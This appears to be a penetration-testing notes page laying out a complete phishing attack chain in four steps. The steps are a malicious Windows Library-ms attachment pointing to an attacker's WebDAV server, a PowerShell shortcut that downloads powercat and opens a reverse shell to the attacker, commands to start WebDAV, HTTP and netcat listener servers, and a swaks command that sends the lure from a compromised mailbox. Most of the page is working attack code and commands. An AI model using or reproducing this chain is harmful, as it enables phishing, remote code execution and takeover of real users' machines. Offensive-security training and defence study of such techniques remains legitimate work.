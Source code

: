 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Phising

{% tabs %}
{% tab title="1. Malicious File" %}
Create a malicious attachment (`config.Library-ms`) and include the attacker host's IP address within the `<url>` tags (line 15):

{% hint style="warning" %}
Create the attachment on a Windows host!

* `Library-ms` is a Windows-specific file format, and it must follow a specific XML structure with Windows metadata.&#x20;
* If it is created it on Linux, even with the same contents, it might not be recognized or executed properly by Windows.
{% endhint %}

{% code title="config.Library-ms" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://172.16.42.42</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}
{% endtab %}

{% tab title="2. Shortcut" %}
Create a malicious PowerShell shortcut pointing first to an attacker-controlled HTTP server and then to an attacker-controlled listener:

{% code overflow="wrap" %}
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_IP>:8000/powercat.ps1');powercat -c <attacker_IP> -p 4444 -e powershell"
```
{% endcode %}
{% endtab %}

{% tab title="3. Transfer & Setup" %}
Transfer both files to the attacking host under `/webdav` and start the server from within that directory:

```bash
# List the directory's contents 
$ ls
config.Library-ms  powershell.lnk

# Start the WEBDAV server
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```

Start the HTTP server and the listener:

```bash
# List the directory's contents 
$ ls
powercat.ps1

# Start the HTTP server
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
# Start the listener
$ sudo nc -lnvp 4444
```
{% endtab %}

{% tab title="4. Email" %}
Send the phising email along with the malicious attachment:

{% code overflow="wrap" %}
```bash
# Send the phising email to jim
$ swaks --to target@example.com --from compromized-email@example.com --header "Subject: Important!!!" --body @body.txt --attach @config.Library-ms --server 192.168.X.189 --auth LOGIN --auth-user compromized-email@example.com --auth-password 'Pass123!'
```
{% endcode %}
{% endtab %}
{% endtabs %}
